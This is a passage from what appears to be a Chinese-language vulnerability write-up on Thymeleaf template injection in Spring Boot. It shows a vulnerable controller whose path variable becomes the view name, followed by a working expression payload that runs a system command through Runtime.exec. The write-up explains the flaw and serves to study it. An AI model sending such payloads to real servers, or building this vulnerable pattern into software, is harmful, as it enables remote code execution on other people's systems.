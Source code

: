 ![2.png](resource/SpringBootThymeleaf模板注入/media/rId33.png)

#### 第二种

根据spring
boot定义，如果controller无返回值，则以GetMapping的路由为视图名称。当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析。

> https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html\#mvc-ann-return-types

在这种情况下，我们只要可以控制请求的controller的参数，一样可以造成RCE漏洞。例如我们可以控制document参数

    @GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
    }
    GET /doc/__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
